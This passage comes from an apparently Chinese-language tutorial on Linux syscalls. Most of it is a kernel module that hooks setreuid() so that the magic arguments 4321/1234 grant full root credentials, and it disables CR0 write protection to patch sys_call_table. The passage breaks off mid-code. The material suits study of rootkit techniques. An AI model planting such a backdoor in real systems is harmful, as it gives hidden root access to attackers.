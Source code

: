 ```cpp
#define __NR_foo 283
__syscall0(long, foo) // 调用
```

## Hook 系统调用

> `setreuid()` 用来将参数 ruid 设为目前进程的真实用户识别码, 将参数 euid 设置为目前进程的有效用户识别码. 如果参数 ruid 或 euid 值为 `-1`, 则对应的识别码不会改变。

下面通过编写模块的方式对 `setreuid()` 系统调用进行 Hook：

```cpp
#include <linux/init.h>
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/syscalls.h>

MODULE_LICENSE("GPL");
MODULE_AUTHOR("assassinq");
MODULE_DESCRIPTION("hook test module");

unsigned long **sys_call_table; // sys_call_table地址存储
// pte_t *pte; // 用来存储页地址
// unsigned int level;

asmlinkage long (*real_setreuid)(uid_t ruid, uid_t euid); // 原始setreuid

asmlinkage long fake_setreuid(uid_t ruid, uid_t euid) { // 用来hook的额setreuid
    struct cred *new;
    printk("Hook setreuid.\n");
    if ((ruid == 4321) && (euid == 1234)) { // 如果传入的参数为4321和1234
        new = prepare_creds();
        if (new != NULL) { // 设置root的uid
            new->uid = GLOBAL_ROOT_UID;
            new->gid = GLOBAL_ROOT_GID;
            new->euid = GLOBAL_ROOT_UID;
            new->egid = GLOBAL_ROOT_GID;
            new->suid = GLOBAL_ROOT_UID;
            new->sgid = GLOBAL_ROOT_GID;
            new->fsuid = GLOBAL_ROOT_UID;
            new->fsgid = GLOBAL_ROOT_GID;
            commit_creds(new);
        }
        printk("Granted root access.\n");
        return (*real_setreuid)(0, 0); // 将uid设置为root
    }
    return (*real_setreuid)(-1, -1); // 默认不修改uid
}

static void allow_writing(void) { // 开启写权限
    write_cr0(read_cr0() & ~0x10000);
}

static void disallow_writing(void) { // 关闭写权限
    write_cr0(read_cr0() | 0x10000);
}

static int __init hello_init(void) {
    printk("Load hook sys_setreuid module.\n");

    sys_call_table = (unsigned long **) kallsyms_lookup_name("sys_call_table"); // 通过kallsyms_lookup_name获取sys_call_table的地址
    printk("Syscall Table Address: %p\n", (unsigned long **) sys_call_table);

```